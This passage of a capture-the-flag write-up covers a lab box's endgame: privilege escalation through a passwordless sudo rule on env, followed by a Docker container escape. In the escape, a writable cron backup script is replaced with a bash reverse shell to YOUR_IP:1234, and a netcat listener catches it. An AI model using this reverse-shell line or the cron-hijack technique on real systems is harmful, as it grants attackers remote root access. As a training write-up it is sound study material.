 ![Revshell](https://i.imgur.com/0Zh5SH7.png)

The first flag is located in the directory where your shell will be spawned. The second one is in the parent directory.

## Privelege Escalation
To figure out a privesc, the fastest way is to use the `sudo -l` command. This command is not perfect though: it won't work if your current user isn't in sudoers and it might find nothing.

![sudo -l](https://i.imgur.com/GnqVyJ1.png)

Fortunately for us, this command returned good results. The last line says our current user can run `env` as root without the need of a password. Using [GTFOBins](https://gtfobins.github.io/), in the sudo category of the `env` command, we can find the right command to escalate our privileges to **root**.

<p align="center">
  <img src="https://i.imgur.com/F1sFjzU.png" width=360>
</p>

We are now **root**! If we now go in the `/root` directory, we can find the third flag. The only problem is, we miss one flag... where could it be?

After a bit of research, we can find a good hint that we are currently stuck inside a Docker container: the hostname (which can be found using the `hostname` command) is not the name of the box as usual. We need to get out of this container to get the 4th flag.

<p align="center">
  <img src="https://i.imgur.com/PKLSGWl.png" width=280>
</p>

## Escaping the Container
We now need to find something that could help us get out of our container. I first searched for common directories until I stumbled in `/opt`. In that directory, we can find a folder named `backups`. In it, there are two files: a *backup.tar* file and a *backup.sh* script which runs about every minute to pack a backup into backup.tar. 

<p align="center">
  <img src="https://i.imgur.com/0fsSNV0.png">
</p>

The problem is that we can edit that file, which makes it vulnerable. If we edit it to insert a reverse shell, we could get access to the machine behind the container, in other words, escaping the container. Let's create a netcat listener using `nc -lvnp 1234` (or any other port). Then, let's replace the *backup.sh* script with a reverse shell as shown below.

```bash
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/1234 0>&1
```

If we wait about 1 minute (it could take a bit more) we get a shell on our listener! We have now escaped the container. The final flag is under `/root`.

![Hostname after](https://i.imgur.com/kee2uwo.png)

That's all we got to do to solve this challenge. If you have any questions, feel free to contact me via [Twitter](https://twitter.com/noxtal_) or using any of the methods listed [here](https://writeups.noxtal.com/#/pages/about).